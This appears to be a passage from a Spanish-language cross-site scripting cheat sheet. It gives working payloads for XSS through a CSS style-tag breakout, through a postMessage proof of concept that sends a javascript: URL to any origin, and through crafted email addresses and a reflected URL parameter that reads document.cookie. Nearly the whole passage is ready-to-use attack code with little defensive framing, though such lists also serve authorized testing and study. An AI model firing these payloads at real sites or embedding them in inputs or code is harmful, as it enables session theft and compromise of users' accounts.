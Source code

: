 ### XSS in CSS

```html
<!DOCTYPE html>
<html>
<head>
<style>
div  {
    background-image: url("data:image/jpg;base64,<\/style><svg/onload=alert(document.domain)>");
    background-color: #cccccc;
}
</style>
</head>
  <body>
    <div>lol</div>
  </body>
</html>
```

## XSS in PostMessage

Si el origen de destino es un asterisco *, el mensaje se puede enviar a cualquier dominio que tenga referencia a la página secundaria.

```html
<html>
<body>
    <input type=button value="Click Me" id="btn">
</body>

<script>
document.getElementById('btn').onclick = function(e){
    window.poc = window.open('http://www.redacted.com/#login');
    setTimeout(function(){
        window.poc.postMessage(
            {
                "sender": "accounts",
                "url": "javascript:confirm('XSS')",
            },
            '*'
        );
    }, 2000);
}
</script>
</html>
```

## XSS in Email

```
testacc@gmail.com‘-alert(9)-’

testacc@gmail.com'-alert(9)-'

test+(<script>alert(0)</script>)@gmail.com

test@gmail(<script>alert(0)</script>).com

"<script>alert(0)</script>"@gmail.com

“<script src=x onerror=confirm(8)>”@gmail.com
https://example.com/userapp/userSettings.html?emailSuccessMessage=%3Cscript%3Ealert(document.cookie)%3C/script%3E
```